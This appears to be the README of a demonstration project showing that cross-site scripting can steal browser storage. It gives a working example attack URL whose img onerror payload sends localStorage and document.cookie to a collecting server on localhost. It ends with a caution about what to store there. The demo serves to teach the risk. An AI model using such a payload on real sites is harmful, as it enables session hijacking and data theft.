 ## Available Scripts

### Server

In the project directory server, you can run:

#### `npm start`

The server listens on port 3001


### Client

In the project directory client, you can run:

#### `npm start`

Open [http://localhost:3000](http://localhost:3000) to view it in the browser.

Example attack: http://localhost:3000/?text=<img src onerror="fetch(`http://localhost:3001?localStorage=${JSON.stringify(localStorage)}&cookie=${JSON.stringify(document.cookie)}`).then(data => data.json()).then(data => console.log('server response', data))" />

Check console for the response from server

## Conclusion

Both localstorage and cookies are vulnerable in about the same severity. Be careful what data you store in them :)